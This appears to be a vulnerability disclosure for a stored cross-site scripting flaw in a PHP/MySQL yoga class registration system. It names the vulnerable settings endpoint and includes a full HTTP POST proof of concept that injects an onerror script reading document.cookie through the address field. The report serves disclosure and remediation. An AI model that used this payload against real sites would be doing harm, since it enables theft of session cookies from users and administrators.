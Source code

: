 ## Yoga Class Registration System has xss vulnerability

## submitter
zhangMingMing

## supplier
https://www.sourcecodester.com/php/16097/yoga-class-registration-system-php-and-mysql-free-source-code.html

## Vulnerability file
/php-ycrs/classes/SystemSettings.php

## Vulnerability analysis

<img width="1274" alt="image" src="https://github.com/user-attachments/assets/5c5749ec-c9c5-4edf-81bd-a68d17a95183">


## describe
There is a vulnerability in the yoga registration system that allows unrestricted xss. An attacker can exploit this vulnerability to obtain cookies on the target system without authorization.

POC
```
POST /php-ycrs/classes/SystemSettings.php?f=update_settings HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:95.0) Gecko/20100101 Firefox/95.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------112480584639099169332366192534
Content-Length: 646
Origin: http://localhost
Connection: close
Referer: http://localhost/php-ycrs/admin/?page=system_info/contact_info
Cookie: PHPSESSID=cims89c5nt143re39d3ce6cdvd
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

-----------------------------112480584639099169332366192534
Content-Disposition: form-data; name="phone"

456-987-1231
-----------------------------112480584639099169332366192534
Content-Disposition: form-data; name="mobile"

09123456987 / 094563212222 
-----------------------------112480584639099169332366192534
Content-Disposition: form-data; name="email"

info@xyzsanitizationservices.com
-----------------------------112480584639099169332366192534
Content-Disposition: form-data; name="address"

7087 Henry St. Clifton Park, NY 12065<img src=1 onerror=alert(document.cookie)>
-----------------------------112480584639099169332366192534--
```
